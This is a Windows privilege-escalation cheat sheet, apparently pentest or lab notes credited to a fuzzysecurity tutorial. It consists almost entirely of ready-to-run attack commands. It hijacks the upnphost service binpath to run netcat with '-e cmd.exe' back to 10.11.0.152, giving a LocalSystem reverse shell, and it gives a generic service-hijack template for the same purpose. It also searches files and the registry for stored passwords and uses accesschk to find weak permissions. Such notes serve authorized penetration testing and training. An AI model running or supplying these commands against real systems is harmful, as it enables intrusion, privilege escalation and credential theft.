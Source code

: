 # windows_2

set

## sc

sc config upnphost binpath= "C:\Inetpub\nc.exe 10.11.0.152 8888 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

## What system are we connected to?
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

## Get the hostname and username (if available)
hostname
echo %username%

## Get users
net users
net user [username]

## Networking stuff
ipconfig /all

## Printer?
route print

## ARP-arific
arp -A

## Active network connections
netstat -ano

## Firewall fun (Win XP SP2+ only)
netsh firewall show state
netsh firewall show config

## Scheduled tasks
schtasks /query /fo LIST /v

## Running processes to started services
tasklist /SVC
net start

## Driver madness
DRIVERQUERY

## WMIC fun (Win 7/8 -- XP requires admin)
wmic /?
# Use wmic_info script!

## WMIC: check patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn

## Search pathces for given patch
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

## AlwaysInstallElevated fun
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

## Other commands to run to hopefully get what we need
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

## Service permissions
sc query
sc qc [service_name]

## Accesschk stuff
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]

## Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

## Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*

## Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]

Mostly all of this taken from http:##www.fuzzysecurity.com/tutorials/16.html                    